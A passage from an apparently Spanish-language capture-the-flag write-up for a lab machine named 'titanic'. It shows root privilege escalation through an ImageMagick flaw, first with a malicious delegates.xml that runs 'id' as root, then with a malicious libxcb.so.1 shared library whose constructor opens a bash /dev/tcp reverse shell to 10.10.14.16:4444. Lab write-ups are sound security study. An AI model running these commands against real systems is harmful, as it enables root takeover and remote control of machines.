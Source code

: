 Habiendo entendido cómo podríamos explotar esta vulnerabilidad, podemos seguir dos métodos para ejecutar comandos

### Proof of Concept - `delegates.xml` File

El primer método consiste en crear un archivo `delegates.xml` en el directorio donde busca el script `identify_images.sh`

~~~ bash
developer@titanic:/opt/app/static/assets/images$ cat << EOF > ./delegates.xml
<delegatemap><delegate xmlns="" decode="XML" command="id"/></delegatemap>
EOF
~~~

Esto ejecutará el comando `id`, y como el script guarda los metadatos de las imágenes que enviamos en el archivo `metadata.log`, deberíamos ver la salida del comando ejecutado allí. Por alguna razón solo funciona cuando el archivo vuelve a crearse, por lo que lo eliminaremos

~~~ bash
developer@titanic:/opt/app/static/assets/images$ touch 'delegates.xml .jpg'
developer@titanic:/opt/app/static/assets/images$ rm metadata.log
~~~

> Hemos creado un archivo `delegates.xml .jpg`, para que se ejecute necesita tener con espacios la extensión `.jpg`.
{: .notice--warning}

Cuando eliminemos el archivo `.log`, esperaremos unos segundos y se creará nuevamente, con la salida del comando `id` en la primer línea

~~~ bash
developer@titanic:/opt/app/static/assets/images$ cat metadata.log 
uid=0(root) gid=0(root) groups=0(root)
/opt/app/static/assets/images/luxury-cabins.jpg JPEG 1024x1024 1024x1024+0+0 8-bit sRGB 280817B 0.000u 0:00.003
/opt/app/static/assets/images/entertainment.jpg JPEG 1024x1024 1024x1024+0+0 8-bit sRGB 291864B 0.000u 0:00.000
/opt/app/static/assets/images/home.jpg JPEG 1024x1024 1024x1024+0+0 8-bit sRGB 232842B 0.000u 0:00.000
/opt/app/static/assets/images/exquisite-dining.jpg JPEG 1024x1024 1024x1024+0+0 8-bit sRGB 280854B 0.000u 0:00.000
~~~

### Exploiting via Shared Library - `libxcb.so.1`

Para el segundo método, compilaremos una biblioteca compartida maliciosa que ejecute un comando en el sistema. En este caso enviaremos una reverse shell a nuestro equipo por un puerto

~~~ bash
developer@titanic:/opt/app/static/assets/images$ gcc -x c -shared -fPIC -o ./libxcb.so.1 - << EOF  
#include <stdio.h>  
#include <stdlib.h>  
#include <unistd.h>  
__attribute__((constructor)) void init(){  
    system("bash -c 'bash -i >& /dev/tcp/10.10.14.16/4444 0>&1'");  
    exit(0);  
}  
EOF
~~~
